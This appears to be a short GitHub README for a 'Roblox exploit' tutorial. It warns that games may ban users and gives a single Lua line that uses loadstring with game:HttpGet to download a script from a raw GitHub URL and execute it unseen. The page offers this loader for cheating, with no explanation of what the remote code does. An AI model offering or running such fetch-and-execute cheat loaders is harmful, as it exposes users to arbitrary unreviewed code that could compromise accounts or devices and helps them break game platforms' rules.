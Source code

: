 # RBLX-Tutorial / Exploit
Exploit: Roblox or games can ban you whenever they want. Use it at your own risk, ill not be responsible for any game bans or roblox ban.

Studio Tutorial : Copy yourself in those files
Exploit:
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/KLAE2160/RBLX-Tutorial/main/ExploitScripts"))()
```
